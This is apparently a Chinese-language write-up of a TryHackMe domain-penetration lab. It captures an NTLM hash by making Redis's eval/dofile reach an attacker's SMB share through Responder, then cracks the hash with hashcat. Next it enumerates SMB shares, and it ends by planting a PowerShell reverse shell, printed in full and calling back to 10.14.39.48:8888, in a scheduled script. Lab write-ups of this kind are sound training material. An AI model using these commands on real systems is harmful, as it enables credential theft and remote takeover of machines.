 ## NTLM 回传攻击

**NTLM回传攻击在thm的域渗透教程中都是有教过的**

通过这个命令能够进行文件读取，由于这里是在域内，思路就是利用这个点，然后访问攻击者开启的**薄弱**smb服务，然后redis这里就会去尝试进行ntlm身份验证，而攻击者也将获取该账户的ntlm hash

这个思路应该是没有问题的，来尝试一下

使用responder开启服务：

	responder -I tun0

redis执行文件读取：

	redis-cli -h 10.10.254.117 eval "dofile('//10.14.39.48//hack')" 0

![在这里插入图片描述](https://img-blog.csdnimg.cn/f868617803374e31ba67fca283b8939f.png)

使用haiti帮助我们快速找到hashcat的类型值

![在这里插入图片描述](https://img-blog.csdnimg.cn/15fedf7aeb4c4de9a15dc4d702e36b12.png)

hashcat直接爆

![在这里插入图片描述](https://img-blog.csdnimg.cn/175d79f41fac4b5d928ed7bd4db3b553.png)

## SMB枚举

现在我们有了一组初始凭据，做的第一件事当然是回去smb看看有没有什么信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/bd41f759595a41cf8a6bc7d15fb67624.png)

在Enterprise-Share里发现一个powershell脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/78cd42bbaaf24875ac29afd7037f6166.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/285e4f616cf34ab5aefcd50d4e821c71.png)

从这个文件名PurgeIrrelevantData和其内容，很容易能猜测到这可能是个定时脚本

我们可以尝试利用其来reverse shell，payload:

	$client = New-Object System.Net.Sockets.TCPClient('10.14.39.48',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

![在这里插入图片描述](https://img-blog.csdnimg.cn/dc3f438abe4b4cecb8b1658b420ffaeb.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/fdc7e110602841939186f1d0bdaccd3e.png)

nc监听
